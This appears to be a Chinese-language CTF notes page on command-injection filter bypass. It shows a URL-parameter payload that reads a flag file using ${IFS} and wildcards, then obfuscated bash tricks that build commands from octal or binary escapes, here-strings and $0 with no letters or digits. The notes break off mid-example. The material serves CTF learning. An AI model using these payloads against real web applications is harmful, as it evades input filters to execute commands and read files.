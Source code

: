 ### 方法二

```
?c=grep${IFS}'fla'${IFS}fla??php
```

> https://probiusofficial.github.io/bashFuck/
>
> ### 无数字字母构造bash命令
>
> [利用shell脚本变量构造无字母数字命令 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12242?time__1311=GqGxRDcG0%3DIxlrzG78GCDn76Kd7K%3DEox)
>
> ####  bash中!的用法
>
> `!` 可以用于间接引用变量，例如：
>
> bash复制
>
> ```bash
> varname="myvar"
> echo ${!varname}  # 输出 myvar 的值
> ```
>
> #### $的用法
>
> > | 变量名 | 含义                                                  |
> > | ------ | ----------------------------------------------------- |
> > | $0     | 脚本本身的名字                                        |
> > | $1     | 脚本后所输入的第一串字符                              |
> > | $2     | 传递给该shell脚本的第二个参数                         |
> > | $*     | 脚本后所输入的所有字符’westos’ ‘linux’ ‘lyq’          |
> > | $@     | 脚本后所输入的所有字符’westos’ ‘linux’ ‘lyq’          |
> > | $_     | 表示上一个命令的最后一个参数                          |
> > | $#     | #脚本后所输入的字符串个数                             |
> > | $$     | 脚本运行的当前进程ID号                                |
> > | $!     | 表示最后执行的后台命令的PID                           |
> > | $?     | 显示最后命令的退出状态，0表示没有错误，其他表示由错误 |
>
> ``````bash
> bash<<<'ls'			# 用bash执行ls
> bash<<<$'\154\163'		# linux可以识别八进制表示的字符，将ls用八进制字符替换
> bash<<<$\'\\$((2#10011010))\\$((2#10100011))\'	# \154\163八进制替换成二进制 \$((2#10011010))\$((2#10100011))
> $0<<<$\'\\$((2#10011010))\\$((2#10100011))\'   	# 将bash用$0代替
> 
> # 由于上面执行方法不能待参数例如：ls / 或者cat flag，在ctfshow的极限命令执行题目里g4师傅给出了一种解决这种问题的方法——通过两次here-strings的方法来解析复杂的带参数命令
> $0<<<$0\<\<\<\$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\\$(($((1<<1))#101000))\\$(($((1<<1))#111001))\' # 两次here-strings的方法来解析复杂的带参数命令
> 
> # $((1<<1))代替2
> $0<<<$0\<\<\<\$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
> 
> ####替换数字
> # 用 #{}！ 继续替换数字${#}替换0,$${##}替换1,${!#}替换$0
> ┌──(kali㉿kali)-[~/桌面/工具/php_mt_seed-4.0]
> └─$ echo ${!#}                                                                                               bash
> ┌──(kali㉿kali)-[~/桌面/工具/php_mt_seed-4.0]
> └─$ echo ${##}  
> 1                                      
> ┌──(kali㉿kali)-[~/桌面/工具/php_mt_seed-4.0]
> └─$ echo ${#} 

[ERROR]: could not find driver